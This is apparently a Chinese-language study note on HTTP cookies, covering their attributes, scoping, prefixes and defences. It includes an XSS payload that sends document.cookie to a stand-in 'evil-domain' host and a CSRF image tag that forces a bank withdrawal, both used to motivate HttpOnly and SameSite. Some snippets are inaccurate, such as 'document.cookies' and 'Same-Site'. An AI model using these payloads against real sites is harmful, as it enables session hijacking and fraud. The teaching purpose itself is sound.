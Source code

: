 # HTTP相关知识点
## 一、 cookies
[MDN cookies文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
### 设置cookie
``` javascript
// 设置cookies
document.cookies = 'name=milo'
// 获取cookies
document.cookies
```
### cookie的生命周期
* Expires 过期时间(绝对时间)
* Max-Age 有效时间(过多少时间)
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```
### 限制访问cookie
* `Secure`: 只能通过https协议发送
* `HttpOnly`: document.cookies无法访问带 `HttpOnly`的cookie

示例
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```
### cookie的作用域
`Domain` 和 `Path` 标识定义了Cookie的作用域：即允许 Cookie 应该发送给哪些URL。
#### Domain属性
Domain指定了哪些主机可以访问cookie，默认为`origin`, **不包含子域名**，如果指定了Domain,则一般包含子域名

#### Path属性
`Path`标识了主机下的哪些路径可以访问cookie
例如，设置 Path=/docs，则以下地址都会匹配：
* /docs
* /docs/Web/
* /docs/Web/HTTP

#### SameSite 属性
`SameSite` cookie允许服务器要求某个cookie在跨域时不被发送，从而阻止跨站请求伪造攻击([CSRF](https://developer.mozilla.org/zh-CN/docs/Glossary/CSRF))

示例
```
Set-Cookie: key=value;Same-Site=Strict
```
Same-Site有三个值
* None: 同站和跨站都会发送cookies
* Strict: 相同站点才能发送
* Lax：与`Strict`类似，外部站点通过链接点击跳转时会携带cookie,比如图片加载和iframe调用

#### Cookie Prefixes
cookie机制使得服务器无法确定cookie是在安全源上设置的
子域上的易受攻击的应用程序可以使用Domain属性设置cookie，从而可以访问所有其他子域上的该cookie

##### __host-
如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，不包括 Domain 属性，并将 Path 属性设置为 / 时，它才在 Set-Cookie 标头中接受。这样，这些 cookie 可以被视为 "domain-locked”。

##### __Secure
如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，它才在 Set-Cookie 标头中接受。该前缀限制要弱于 __Host- 前缀。

#### 安全
根据应用程序的不同，可能需要使用服务器查找的不透明标识符，或者研究诸如 JSON Web Tokens 之类的替代身份验证/机密机制。
当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息。

缓解涉及Cookie的攻击的方法：
* 使用 HttpOnly 属性可防止通过 JavaScript 访问 cookie 值。
* 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 SameSite 属性设置为Strict 或 Lax。（请参见上方的 SameSite Cookie。）在支持 SameSite 的浏览器中，这样做的作用是确保不与跨域请求一起发送身份验证 cookie，因此，这种请求实际上不会向应用服务器进行身份验证。


#### 会话劫持和XSS
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
设置`HttpOnly`可以在一定程度上缓解此类攻击

#### 跨站请求伪造(CSRF)
```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

* 对用户输入进行过滤来阻止 XSS (en-US)；
* 任何敏感操作都需要确认；
* 用于敏感信息的 Cookie 只能拥有较短的生命周期；















